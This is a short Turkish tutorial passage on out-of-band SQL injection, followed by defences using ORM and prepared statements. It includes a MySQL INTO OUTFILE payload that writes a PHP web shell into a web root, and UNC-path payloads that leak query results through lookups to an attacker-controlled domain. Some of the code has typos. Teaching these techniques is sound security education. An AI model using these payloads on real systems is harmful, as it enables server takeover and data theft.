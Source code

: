 # **5- Out-of-Band SQLi**

Şimdi kod yapımızı tekrar değiştirelim;

```jsx
id = request.get('id')

rabbitmq.pushTask('report_generate',id)

print("selam")
```

Web uygulaması, bizden aldığı değeri RabbitMQ isimli bir servise gönderdi. Artık sleep() ifadesini koysak bile veritabanı uyumayacaktır. Çünkü SQL injection bizim konuştuğumuz uygulamada yok. Bu uygulama bizden alıp başka bir yapıya göndermektedir.

INTO OUTFILE diske bir veri yazma işlevini yerine getirir. Windowsun bir özelliği vardır.

```sql
SELECT '<?=system(@$_GET['cmd']);?>' INTO OUTFILE 'var/www/html/c99.php';
```

Burada samba bağlanır. domain’i çözmesi gerekir. subdomain’e biz artık başka şeyler yazabiliriz;

```sql
SELECT 'ilker' INTO OUTFILE '\\\hacker.ilker.com/a';
```

Burada artık kendi sql sorgumuzu da çalıştırabiliriz;

```sql
SELECT 'ilker' INTO OUTFILE '\\\'+(SELECT 'ilker')+'.ilker.com/a';
```

Biraz da bu meselenin defansif tarafını konuşalım. Kod yapımızı burada tekrar ele alalım;

```python
id = request.get('id')

query = "SELET * FROM haberler WHERE id = "+id

db.execute(query)

print("selam")
```

Günümüzdeki framework’lerin çoğunda bize kattıkları en büyük özellik ORM (Object to Relational Mapping) ‘dir.

Artık SQL sorgusu yazmak yerine sadece kod üzerinden veri çekmekteyiz.

```python
ORM

class Haberler(Table):
 id = db.aut()

id = request.get('id')

Haberler.filter(id).get()

//prepare statement
query = "SELECT * FROM haberler WHERE id = :id"

db.execute(query)

print("selam")
```
